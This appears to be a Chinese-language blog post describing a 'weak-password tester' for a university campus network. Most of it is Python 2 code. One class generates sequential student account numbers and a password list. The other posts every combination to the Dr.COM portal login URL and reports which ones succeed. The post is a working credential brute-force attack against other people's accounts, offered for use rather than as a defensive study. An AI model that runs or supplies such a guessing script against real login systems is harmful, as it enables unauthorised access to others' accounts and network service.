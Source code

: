 # 校园网弱密码测试器
> 基于上一篇校园网脚本一键登录

在上一篇中, 我们成功地通过 Python 使用帐号和密码登录了校园网, 试想一下, 假如我有很多帐号, 有密码字典, 那岂不是可以暴力穷举帐号的弱密码了吗?

首先, 先确定提交表单的 URL 是全校通用的, 是手机和电脑全平台适用的, 分别在不同的装有 AC 面板的地方连上 wifi, 测试登录脚本 (确定 ACname 和 ACip 唯一), 分别使用不同的手机电脑测试 (确定 ip 是通过 DHCP 分配), 确定下来之后就开始编写脚本了, 首先项目分为两部分, 一部分负责提供帐号密码 (account-password), 称为 APManager, 一部分负责登录验证, 称为 Snipper, 于是我们就有了两个类, 分别对其进行函数填充.

`APManager` 主要变量有 `account_list`, 一个存储着所有帐号的 list;`account_index`, 一个指向 list 的当前下标, 每次测试登录之后, index 都会前移, 同理还有 `password_list` 和 `password_index`, 然后有个 `generate_account` 函数负责按照一定规律 (固定前缀 / 递增) 生成 account 并保存在 `accounts.txt` 中, 和生成密码字典的 `generate_password`, 获得下一个 account/password 的 `next_account` 和 `next_password`, 每次获取时都会先调用 generate_account/password, 检查下标是否越界, 获得下一个 account/password, 或者返回 `None`, 还有个 `reset_password`, 用来将 `password_index` 归零, 因为 `account_list` 中的每一个 account 都要用到 `password_list` 中每一项, 所以需要归零, 而 `account_index` 不需要归零, 因为一旦测试完了所有的 account, 脚本也就运行结束了, 最后一个函数是 `read_file`, 负责从文件中读取 account 和 password 组成两个 list.

`Snipper` 主要变量有 `APManager` 和 `URL`, 主要函数有: `contract`, 负责将 account 和 password(从 `APManager` 中 `next_account` 和 `next_password` 函数获得) 拼接起来组成表单; `snip`, 负责发起登录请求和结果判断; `shedule`, 负责调度 `APManager` 产生 account/password 和 `snip`

两个类的代码如下:
`APManager.py`
```
# encoding = utf-8
# /usr/bin/python


class APManager():
	"""docstring for APManager"""

	def __init__(self):
		self.account_index = 0
		self.password_index = 0
		self.account_list = []
		self.password_list = []

	def generate_accounts(self):
		"""generate a series of accounts and save to a txt file"""
		accounts = ['1','2','3','4']
		file = open('accounts.txt','w')
		for account in accounts:
			file.write('%s\n' %account)
		file.close()
		print 'generate accounts success'

	def generate_passwords(self):
		"""generate a series of passwords and save to a txt file"""
		passwords = ['1','2','3','6']
		file = open('passwords.txt','w')
		for password in passwords:
			file.write('%s\n' %password)
		file.close()
		print 'generate passwords success'

	def next_account(self):
		self.read_file()
		if self.account_index <len(self.account_list):
			account = self.account_list[self.account_index]
			self.account_index += 1
			print 'next account is %s' %account
			return account
		else:
			print 'no more account'
			return None

	def next_password(self):
		self.read_file()
		if self.password_index <len(self.password_list):
			password = self.password_list[self.password_index]
			self.password_index += 1
			print 'next password is %s' %password
			return password
		else:
			print 'no more password'
			return None			

	def reset_password(self):
		self.password_index = 0

	def read_file(self):
		"""read account and password from txt and save to 2 list"""
		with open('accounts.txt','r') as f:
			lines = f.readlines()
		self.account_list = [line.strip() for line in lines]

		with open('passwords.txt','r') as f:
			lines = f.readlines()
		self.password_list = [line.strip() for line in lines]

		# print self.account_list
		# print self.password_list

if __name__ == '__main__':
	manager = APManager()
	# manager.generate_accounts()
	# manager.generate_passwords()
	account = manager.next_account()
	print account
	password = manager.next_password()
	print password
```
`Snipper.py`
```
# encoding=utf-8
# /usr/bin/python
import urllib2,urllib
import re
import time,sched
from APManager import APManager

class Snipper(object):
	"""docstring for Snipper"""

	def __init__(self):
		self.url = 'https://s.XXXX.edu.cn:801/eportal/?c=ACSetting&a=Login&wlanuserip=192.168.165.193&wlanacip=192.168.255.251&wlanacname=WX6108E-slot5-AC&redirect=&session=&vlanid=XXXX-student&port=80&iTermType=&protocol=https:'
		self.manager = APManager()

	def contract(self,account,password):
		data = urllib.urlencode([('DDDDD', account),
  ('upass', password),
  ('R1', '0'),
  ('R2', ''),
  ('R6', '0'),
  ('para', '00'),
  ('0MKKey', '123456')])
		return data

	def snip(self,account,password):
		data = self.contract(account,password)
		req = urllib2.Request (self.url,data)
		response = urllib2.urlopen(req)
		html = response.read().decode('gb2312')
		# print html
		p = r"<title>(.+?)</title>"
		macher = re.findall(p,html)
		title = ''.join(macher)
		# Drcom PC 登陆信息页
		# Drcom PC 登陆成功页
		# print title
		# print type(title)
		if title == u'Drcom PC 登陆信息页':
			print 'error'
			return False
		elif title == u'Drcom PC 登陆成功页':
			print 'success'
			print account
			print password
			return True
		else:
			print 'unknown error'
			return False

	def schedule(self):
		account = self.manager.next_account()
		password = self.manager.next_password()
		while account is not None:
			if self.snip(account,password):
				account = self.manager.next_account()
			else:
				next_password = self.manager.next_password()
				password = next_password
				if next_password is None:
					self.manager.reset_password()
					password = self.manager.next_password()
					account = self.manager.next_account()


if __name__ == '__main__':
	snipper = Snipper()
	snipper.schedule()
```
